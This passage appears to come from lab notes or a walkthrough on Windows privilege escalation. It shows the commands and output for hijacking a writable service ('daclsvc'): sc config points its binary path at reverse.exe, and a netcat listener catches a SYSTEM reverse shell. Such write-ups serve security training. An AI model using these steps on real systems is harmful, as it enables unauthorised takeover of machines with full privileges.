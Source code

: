 
- Query the service and confirm it run with SYSTEM privileges
	- `SERVICE_START_NAME` parameter => `LocalSystem`

```powershell
C:\PrivEsc>sc qc daclsvc                                                                        
# sc qc <SERVICE>                  
[SC] QueryServiceConfig SUCCESS                

SERVICE_NAME: daclsvc                                                                          
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL                                                        
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   :  
        TAG                : 0           
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       :            
        SERVICE_START_NAME : LocalSystem
```


- Modify the service config and set the `BINARY_PATH_NAME` to the `reverse.exe` executable you created:


```powershell
C:\PrivEsc>sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
# sc config daclsvc binpath= <REVERSE_SHELL_PATH>
[SC] ChangeServiceConfig SUCCESS

# Querying the service config again binpath has been changed

C:\PrivEsc>sc qc daclsvc 
sc qc daclsvc 
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\PrivEsc\reverse.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

- Start a listener and start the service to spawn reverse shell as SYSTEM


```bash
net start daclsvc # replace 'daclsvc' with service name


################################################

❯ rlwrap nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.159.9 49810
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```
